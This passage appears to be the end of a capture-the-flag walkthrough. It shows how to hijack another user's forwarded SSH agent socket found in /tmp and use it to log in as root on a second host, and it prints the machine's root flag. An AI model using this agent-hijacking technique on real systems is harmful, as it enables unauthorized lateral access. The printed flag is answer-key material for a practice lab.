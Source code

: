 ```commandline
<snip>
2019/05/10 13:12:01 CMD: UID=1001 PID=1675   | sshd: kaneki_adm     
2019/05/10 13:12:01 CMD: UID=1001 PID=1676   | sshd: kaneki_adm@pts/5
<snip>
```
… run this in your other pane. Your agent and ssh- values will be different than mine each time!

```commandline
root@kaneki-pc:/home/kaneki_adm# find /tmp -name *agent* 
root@kaneki-pc:/home/kaneki_adm# find /tmp -name "*agent*" 2>/dev/null
/tmp/ssh-v2z2opBufh/agent.1675
root@kaneki-pc:/home/kaneki_adm# SSH_AUTH_SOCK=/tmp/ssh-v2z2opBufh/agent.1675 ssh root@172.18.0.1 -p 2222
```

If this works, you’ll have the following:

```commandline
root@Aogiri:/# cat /root/root.txt
7c0f11041f210f4fadff7c077539e72f
```

And your done!!! Happy hacking!

